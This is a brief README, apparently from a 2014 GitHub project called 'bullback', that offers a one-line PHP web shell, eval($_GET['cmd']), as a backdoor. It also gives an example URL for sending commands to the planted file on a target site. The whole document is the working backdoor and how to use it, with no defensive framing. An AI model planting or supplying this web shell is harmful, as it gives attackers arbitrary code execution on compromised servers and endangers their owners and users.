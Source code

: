 bullback
========

It generates an effective rear connection with eval()

```php
<?php eval($_GET["cmd"]); ?>
```

```
Example: Insert target -> http://target.com/shell.php?cmd=
```

There is not any documentation at the moment, but the code is really easy to understand.

-------------

Copyright, 2014 by [José Pino](http://twitter.com/jofpin)

-------------
